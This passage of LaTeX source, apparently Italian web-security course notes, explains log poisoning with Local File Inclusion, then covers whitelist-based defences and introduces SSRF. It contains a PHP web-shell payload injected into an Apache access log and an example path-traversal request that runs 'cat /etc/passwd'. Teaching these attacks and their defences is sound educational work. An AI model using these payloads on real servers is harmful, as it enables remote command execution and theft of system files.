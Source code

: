 \documentclass{article}
\begin{document}
Supponendo che il path del file di log sia: \verb|C:\xampp\apache\logs\access.log|, il contenuto del file sarà qualcosa di simile a:
\begin{verbatim}
	<ip_attaccante> - - [11/Gen/2022:17:49:32 +0100] " 
	<?php echo shell_exec($_GET['cmd']);?> " 400 1047
\end{verbatim}

Il payload quindi eseguirà, come comando di sistema, il contenuto della variabile GET "cmd". \\
All'attaccante adesso basta fare \textbf{Local File Inclusion} (usando Path Traversal) su \verb|user| per caricare i log sulla pagina e passare tramite \verb|cmd| i comandi di sistema di sua scelta. Un esempio sarebbe:
\begin{verbatim}
	victim.site/changeConfig.php?cmd=cat+/etc/passwd&user=
	../../../../../xampp/apache/logs/access.log%00
\end{verbatim}

\subsubsection{Sanitizzazione di File Inclusion}
La soluzione più efficace contro ogni tipo di \textbf{File Inclusion} è l'uso di \textbf{whitelist}.\\ In aggiunta, verificare l'\textbf{estensione dei file} e la \textbf{coerenza con suoi magic byte} prima di accettare un upload sono ottime soluzioni aggiuntive.

Invece è estremamente sconsigliato, come per pressoché tutte le vulnerabilità, l'uso di \textbf{blacklist} e di \textbf{euristiche}.

\newpage

\subsection{Server Side Request Forgery (SSRF)}
La \textbf{Server Side Request Forgery (SSRF)} è una vulnerabilità Server-Side dove l'attaccante riesce ad inviare richieste \textbf{dal server web attaccato verso qualsiasi altra macchina online}, che sia nella \textbf{rete locale} del web server o \textbf{remota}.

SSRF è molto efficace per comunicare con macchine all'interno della rete locale del web server che \textbf{non sono esposte in rete} e/o che accettano \textbf{pacchetti} e \textbf{richieste} solo da altre \textbf{macchine locali}, essenzialmente permettendo \textbf{esplorazioni della sottorete} e \textbf{movimento laterale}.
\end{document}
